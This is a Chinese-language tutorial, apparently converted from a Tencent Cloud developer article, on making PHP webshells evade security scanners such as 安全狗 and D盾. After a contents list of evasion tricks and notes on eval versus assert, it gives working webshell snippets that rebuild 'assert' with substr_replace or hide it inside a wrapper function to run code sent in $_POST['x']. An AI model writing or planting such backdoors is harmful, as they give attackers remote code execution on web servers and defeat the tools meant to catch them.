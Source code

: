 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [cloud.tencent.com](https://cloud.tencent.com/developer/article/1483896?from=14588)

> 关于 eval 于 assert 字符串变形 定义函数绕过 回调函数 回调函数变形 特殊字符干扰 数组 类 编码绕过 无字符特征马 PHP7.1 后 webshell...

尽最大努力在一文中让大家掌握一些有用的 webshell 免杀技巧

关于 eval 于 assert 字符串变形 定义函数绕过 回调函数 回调函数变形 特殊字符干扰 数组 类 编码绕过 无字符特征马 PHP7.1 后 webshell 何去何从 总结

关于 eval 函数在 php 给出的官方说明是

eval 是一个语言构造器而不是一个函数，不能被 可变函数 调用 可变函数：通过一个变量，获取其对应的变量值，然后通过给该值增加一个括号 ()，让系统认为该值是一个函数，从而当做函数来执行 通俗的说比如你 `<?php $a=eval;$a() ?>` 这样是不行的 也造就了用 eval 的话达不到 assert 的灵活，但是在 php7.1 以上 assert 已经不行

关于 assert 函数

assert() 回调函数在构建自动测试套件的时候尤其有用，因为它们允许你简易地捕获传入断言的代码，并包含断言的位置信息。当信息能够被其他方法捕获，使用断言可以让它更快更方便！

字符串变形多数用于 BYPASS 安全狗，相当对于 D 盾，安全狗更加重视” 形” 一个特殊的变形就能绕过安全狗，看看 PHP 手册，有着很多关于操作字符串的函数

```
ucwords() 
ucfirst() 
trim() 
substr_replace() 
substr() 
strtr() 
strtoupper() 
strtolower() 
strtok() 
str_rot13() 

```

由于 PHP 的灵活性操作字符串的函数很多，我这里就不一一列举了

用`substr_replace()` 函数变形 assert 达到免杀的效果

```
<?php

$a = substr_replace("assexx","rt",4);

$a($_POST['x']);

?>

```

其他函数类似 不一一列举了

定义一个函数把关键词分割达到 bypass 效果

```
<?php 
function kdog($a){
    $a($_POST['x']);
}
kdog(assert);
?>

```
